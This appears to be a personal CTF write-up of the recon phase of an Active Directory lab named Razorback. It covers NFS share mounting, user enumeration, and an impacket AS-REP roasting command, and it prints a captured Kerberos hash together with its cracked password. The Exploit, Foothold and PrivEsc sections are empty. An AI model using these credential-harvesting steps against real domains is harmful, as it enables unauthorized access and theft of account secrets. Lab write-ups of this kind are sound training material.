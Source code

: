 # Razorback Helped Through

Name: Razorback
Date:  /2022
Difficulty:  Medium
Description: These guys call themselves hackers. Can you show them who's the boss ??
Goals:  Chill out and have fun
Learnt:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

![](rpcclientdeadend.png)

![](2049mountage.png)

![](filtered.png)

[Newbie Tuesday](https://www.youtube.com/watch?v=sdxdSWpzF-M&t=970s)

Question-along:
- What ports are important: 445, 88, 3369 389, 636 
- AD requires DNS and hostname is important for kerberos
- crackmapexec
- null authentication
- nfs is file sharing

```bash
sudo showmount -e $ip
sudo mkdir /mnt/rb
sudo mount HAVEN-DC:/users /mnt/rb # DNS and AD
sudo su # to be root the travverse driectory 
umount $ip:/local/file/path		
```

Into the beast the first flag is here
![](mounting.png)

Exflitrating the spreadsheets full of names
![1000](theemployees.png)
sbradley.txt is the naming convention ; ljudmila vetrova AD admin 

![](learningkerbrute.png)
Have not used kerbrute in awhile

Pre-Authenication disabled in kerberos is timestamp to dc encrypted by the password hash of the user.
```bash
impacket-GetNPUsers -dc-ip HAVEN-DC -usersfile validusers.txt -format john raz0rblack.thm/
```
![](asreproasting.png)
```
$krb5asrep$twilliams@RAZ0RBLACK.THM:f46ff33ba011644211541533d0586e15$8fe6da6fb859d20d1e256ca394b0cbeab33f395874093f51a34b15031a305f6801724ac6a2f78c50f6d26933a036afd204198d4eb8efb5eaf5fd47197e9896fde4bb61b453906bd3d62b31893fab8a39874a21c0eb6dcc17c7606c2a7ec433339b8682e3a894a77794a6baf833153918b51133ad6ee8158a855a03bf563574a181f0060ee8373c39de0d675504339066c186a5a73aec3295d0443925cc82e97d1c25b19f219dc2896366c7954b955225c931e2534d1fd28a0fc8aeaceb7540a808704f80474586cd62b2696092765eedb2304cbe3df8cb4b91900d1428c4a0af0285c9ce19c2749e42d4666c53fca9d9 

roastpotatoes
```


![](cmetw.png)

![](weirdness.png)

![](ridbrute.png)

xyan1d3 is not pre-auth




## Exploit

## Foothold

## PrivEsc

      
